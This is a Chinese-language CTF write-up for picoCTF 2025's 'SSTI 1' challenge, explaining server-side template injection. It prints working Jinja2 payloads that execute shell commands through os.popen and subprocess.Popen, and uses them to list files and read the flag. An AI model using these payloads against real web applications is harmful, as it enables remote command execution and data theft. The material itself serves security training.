



# SSTI 1

###### tags: `Web Exploitation`, `picoCTF 2025`, `browser_webshell_solvable`



## SSTI(Server Side Template Injection)

這是一種將惡意內容注入到 Web Server 執行命令的漏洞。

模板(Template)引擎的目的是將固定模板和 volatile data 結合來產生網頁，當 User 輸入可以直接連結到模板，讓攻擊者可以注入模板指令並且操縱模板引擎時，可能就能完全控制 Server。

| Type                         | Format             |
| ---------------------------- | ------------------ |
| Jinja2 (Python Flask/Django) | {{ 7*7 }}          |
| Freemarker (Java)            | ${7\*7}            |
| Velocity (Java)              | #set($a = 7*7)${a} |
| Thymeleaf (Java)             | ${7\*7}            |
| Twig (PHP Symfony)           | {{ 7\*             |
| Smarty (PHP)                 | {$7\*7}            |
| Mako (Python)                | <% print 7\*7 %>   |

### 測試



可知目前之架構採用 -> Jinja2(Python Flask/Django) or Twig (PHP Symfony)

可用

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('<cmd>').read() }}
```

或

```
{{ ''.__class__.__mro__[1].__subclasses__()[407]('<cmd>',shell=True,stdout=-1).communicate() }}
```

輸入指令內容

### 獲取當前路徑下的 file list (ls)

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}
```



### 查看 flag 資料

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}
```

即可得到 Flag
